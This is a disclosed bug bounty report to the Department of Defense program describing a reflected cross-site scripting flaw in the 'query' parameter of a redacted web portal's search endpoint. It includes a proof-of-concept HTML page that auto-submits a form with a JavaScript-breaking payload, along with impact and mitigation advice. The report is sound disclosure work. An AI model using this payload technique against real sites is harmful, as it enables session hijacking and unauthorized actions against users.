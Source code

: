 # XSS found for https://█████████

## Report Details
- **Report ID**: 2670521
- **URL**: https://hackerone.com/reports/2670521
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2024-08-20T06:26:14.302Z
- **Disclosed**: 2024-08-29T17:46:25.050Z

## Reporter
- **Username**: thpless
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
* Location: POST request to the endpoint `/web/guest/search`
* Parameter Affected: `query=`
* Proof of Concept:

```
<html>
<body>
<script>
	window.onload = function(){document.forms['XSS'].submit();}
</script>
	<form id='XSS' action='https://█████████/web/guest/search' method='post'>
		<input type='text' name='query' value="'};alert('XSS');var x={y:'">
	</form>
</body>
</html>
```

## Impact

An attacker can craft a malicious payload and trick a user into sending a POST request to the vulnerable endpoint. The unvalidated and unsanitized data is then reflected in the server’s response, allowing the attacker to execute arbitrary JavaScript code in the victim’s browser. This could lead to session hijacking, redirection to malicious sites, or unauthorized actions being performed in the context of the authenticated user.

## System Host(s)
██████████

## Affected Product(s) and Version(s)
██████████ WebPortal

## CVE Numbers


## Steps to Reproduce
You can download the added exploit.html and open it in a browser

████

## Suggested Mitigation/Remediation Actions
To fix this issue, ensure that all user-supplied data is properly sanitized and encoded before being reflected in the server's response. Implementing Content Security Policy (CSP) headers can also mitigate the risk of XSS attacks by restricting the sources from which scripts can be loaded.



## Attachments
No attachments

